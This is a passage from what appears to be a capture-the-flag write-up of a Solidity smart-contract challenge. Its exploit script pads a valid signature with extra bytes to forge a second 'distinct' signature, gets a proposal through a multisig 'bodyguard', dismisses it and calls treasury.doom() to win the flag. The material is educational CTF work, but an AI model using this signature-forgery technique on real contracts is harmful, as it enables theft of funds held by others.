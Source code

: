 ```solidity
        signatures[0] = abi.encodePacked(r, s, v);                  // Attacker's signature
        signatures[1] = abi.encodePacked(r, s, v, bytes("trash"));  // Forged signature

        address signer = bodyguard.recoverSigner(hash, signatures[0]);
        require(signer == player, "invalid signer for first signature");

        signer = bodyguard.recoverSigner(hash, signatures[1]);
        require(signer == player, "invalid signer for second signature");

        // Optional sort
        if (keccak256(signatures[0]) >= keccak256(signatures[1])) {
            bytes memory tmp = signatures[0];
            signatures[0] = signatures[1];
            signatures[1] = tmp;
        }

        bodyguard.propose(proposal, signatures);

        // Optional check
        require(treasury.bodyGuard() == address(0), "bodyguard not dismissed");

        treasury.doom();

        vm.stopBroadcast();

        require(challenge.isSolved(), "not solved");
    }
}
```

<p align="center"><img src="./flag.png"></p>
